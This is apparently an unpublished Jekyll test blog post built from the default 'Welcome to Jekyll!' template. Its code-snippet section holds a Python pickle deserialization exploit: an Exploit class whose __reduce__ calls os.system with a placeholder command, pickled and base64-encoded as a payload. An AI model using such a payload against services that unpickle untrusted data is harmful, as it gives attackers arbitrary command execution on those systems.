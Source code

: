 ```yaml
---
layout: post
title:  "Welcome to Jekyll!"
date:   2024-10-31 10:53:51 +0700
categories: jekyll update
published: false
description: Test post blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah 
---
```

{:toc}

# Header 1
## Header 1.135135135135135135135135135135135135
You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. You can rebuild the site in many different ways, but the most common way is to run `jekyll serve`, which launches a web server and auto-regenerates your site when a file is updated.

Jekyll requires blog post files to be named according to the following format:
`YEAR-MONTH-DAY-title.MARKUP`
## Header 1.2
Where `YEAR` is a four-digit number, `MONTH` and `DAY` are both two-digit numbers, and `MARKUP` is the file extension representing the format used in the file. After that, include the necessary front matter. Take a look at the source for this post to get an idea about how it works.

Jekyll also offers powerful support for code snippets:

# Code
{% highlight python %}
import pickle
import base64

class Exploit(object):
    def __reduce__(self):
        import os
        return (os.system, ("<your_command_here>",))

payload = pickle.dumps(Exploit())
encoded_payload = base64.b64encode(payload).decode('utf-8')

print(encoded_payload)
{% endhighlight %}

# Footer
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
